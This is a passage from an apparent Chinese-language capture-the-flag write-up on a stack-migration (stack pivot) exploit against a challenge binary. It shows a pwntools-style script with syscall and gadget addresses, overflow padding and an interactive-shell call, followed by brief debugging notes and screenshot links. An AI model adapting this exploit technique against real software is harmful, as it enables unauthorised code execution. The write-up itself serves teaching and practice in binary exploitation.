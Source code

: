 ```plain
syscall2=0x40118A #syscall
syscall=0x401060  #syscall_plt
rax_15 = 0x401193
main = 0x401421

pl='aaaaaaaa'
sa('easyhack\n',pl)
sa('SUID?\n',b'\x00'*(0x2a)+p64(0x404080)+p64(0x401421))
s(b'\x00'*(0x2a)+p64(0x404080+0x2a)+p64(0x401421))

duan()
s(p64(0x404080+0x2a+0x10))  

itr()
```

首先我们先去测试一下迁移过去会执行到哪

[![](assets/1703640353-02969139b09b9af8feadb63f5a523f06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191926-766ce00a-a317-1.png)  
pause 的时候是这个状态，然后输入 p64(0x404060+0x2a+0x10) 后往下调试一下是这个状态

[![](assets/1703640353-3a11d8b551f686c5b276bf670a7b0e3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191934-7b93f974-a317-1.png)  
之后就是去执行了
